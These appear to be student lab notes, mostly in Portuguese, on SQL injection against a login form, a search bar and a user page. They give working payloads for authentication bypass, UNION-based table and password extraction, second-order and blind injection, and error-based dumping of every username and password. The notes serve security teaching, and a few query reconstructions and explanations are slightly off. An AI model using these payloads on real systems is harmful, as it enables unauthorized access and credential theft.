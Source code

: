 # SQL INJECTION

## Basic SQL Injections

### SELECT * FROM users where username='".$user."' AND password = '.md5($password)."'

As we can see, the password is hashed using md5, so that's probably not the best path for us to attack from. However, the User Field is not protected at all
Se no login, na parte do username, escrevermos ```voldemort' -- //```, Isto causa que o resto da query seja ignorada
> -- // é como se faz comentarios em SQL

Assim o server recebe:

```sql
SELECT * FROM users where username='voldemort' -- //' AND password =''
```

a partir do 'voldemort', é tudo comentario. Logo, desde que voldemort seja um username existente, a query não irá ter erros e vai retornar *.

### SELECT * FROM users where (username='".$user."') AND (password = '.md5($password)."')

Aqui, temos os parenteses como extra segurança. Se fizessemos como antes ficava assim:

```sql
SELECT * FROM users where (username='voldemort' -- //') AND (password = '.md5($password)."')
```

Acaba-se com uma query mal formada, uma vez que nunca foram fechados os parenteses.

Entao, se fizermos login com o username ```voldemort') -- //```, cria a seguinte query:

```sql
 "SELECT * FROM users where username=('Voldemort') -- // ') AND password = '.md5($password). 
```

Assim já funciona a injection.

### SELECT * FROM products WHERE product_name LIKE '".$query."%'

> In SQL, a command ending in *LIKE ba%*, will return items whose names end with the substring "ba".

Neste exercício, estamos a usar uma barra de pesquisa em que nos aparecem os items que começam com a substring *".$query."*
Como não há qualquer tipo de validação, podemos fazer traquinagem

Por exemplo, se escrevermos na barra ```b%' order by 5 -- //```, o servidor vai receber a query:

```sql
SELECT * FROM products WHERE product_name LIKE 'b%' order by 5 -- //%'
```

Isto ordena a tabela resultante pela quinta coluna de dados.

Dá pa fazer mais cenas na search bar.
> The UNION operator is used to combine the result-set of two or more SELECT statements

Portanto se fizermos:

```sql
'union select null,id,username,password,fname from users -- //  
```

Cria a query:

```sql
"SELECT * FROM products WHERE product_name LIKE '% 'union select null,id,username,password,fname from users -- %' 
```

Assim, alem de aparecerem os produtos, aparece tambem uma tabela com id, username, pass ...

Se não soubermos os nomes das variáveis e tabelas, o que é muito provavel, fazemos ```'union select null,null,null,null,table_name from information_schema.tables -- //```

Isto retorna tudo o que existe na base de dados.

## SQL Second Order Attacks

This designation (Second Order Attacks) is given to attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function
Por exemplo, regista-se uma conta com username e pass, mas no username injeta-se SQL. Não acontece nada de momento, mas mais tarde quando se for trocar de pass, o SQL injetado vai ser executado. ***É por isso que se chama second order.***

Utilizando ```' or 1 in (select password from users) -- //```, dá nos um erro, mas a mensagem de erro mostra nos também o que queremos:
> Warning<: 1292: Truncated incorrect DOUBLE value : (...)

(Where ==(...)== are all the passwords in the **users** table password column)

## Blind SQL Injection

A Blind SQL injection happens when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true false, etc...) that provides information about the data in the database.

Neste exercício, temos uma página cujo URL tem o username do utilizador. Alterando esse valor, podemos aceder a paginas de outros utilizadores. Também podemos fazer outras coisas injetando SQL.

A query da pagina funciona da seguinte forma:

```sql
SELECT * FROM users WHERE username = '".$_GET["user"]."'
```

Utilizaremos a template ```voldemort AND TEST``` em que TEST é qualquer pedaço de código SQL.
Podemos, por exemplo, fazer: ```voldemort AND SUBSTRING((select count(id) from users), 1) = N' -- //```

Isto cria a seguinte query:

```sql
SELECT * FROM users WHERE username = '.$_GET["voldemort AND SUBSTRING((select count(id) from users), 1) = N"].'
```

> By gradually incrementing N, we can, by **trial and error** get how many users exist in the **users** table (which corresponds to how many users exist overall). We'll know we've hit jackpot (i.e N equals the number of users that exist) when information is shown on the page (meaning that our < TEST > was validated as **TRUE** !) This basically gives us a way to find out anything we want from the database, using an exhaustive, and repetitive form, by basically continously asking the query: "Is < TEST > correct? How about this"

## Error based data extraction

Voltando à pagina de login, podemos extrair informação de lá a partir de mensagens de erros.

Lembrando que esta form funciona da seguinte forma:

```sql
SELECT * FROM users where username='".$user."' AND password = '.md5($password).
```

Se escrevermos isto no login: ```' or 1 in (select @@version) -- //```, o server recebe:

```sql
SELECT * FROM users where username='' or 1 in (select @@version) -- //' AND password = '.md5($password)."'
```

Aparece na página o seguinte erro:
> Warning: 1292: Truncated incorrect DOUBLE value: '8.0.17'

Já sabemos a versao do server.

### Outras funcionalidades

#### Return the hashed password of the admin user (or any user)

```sql
' or 1 in (select password from users where username = 'admin') -- //
```

#### Get info from the **users** table

```sql
 ' or 1 in (select username from users where id=1) -- //
```

#### List the tables of the information_schema ﬁrst database. You can obtain the list of table identiﬁers (TABLE_ID) and then use this information to obtain further data (e.g. WHERE TABLE_ID=1024)

```sql
' or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED) -- //
```

This last example allows us to dump all rows from any column in any table. It basically contacts multiple values so that the result can be included in the error message

#### List the usernames of all users stored in the users table

```sql
'or 1=CAST((select group_concat(username) from users) AS SIGNED)-- //`
```

#### List the passwords of all users stored in the users table

```sql
'or 1=CAST((select group_concat(password) from users) AS SIGNED)-- //
```
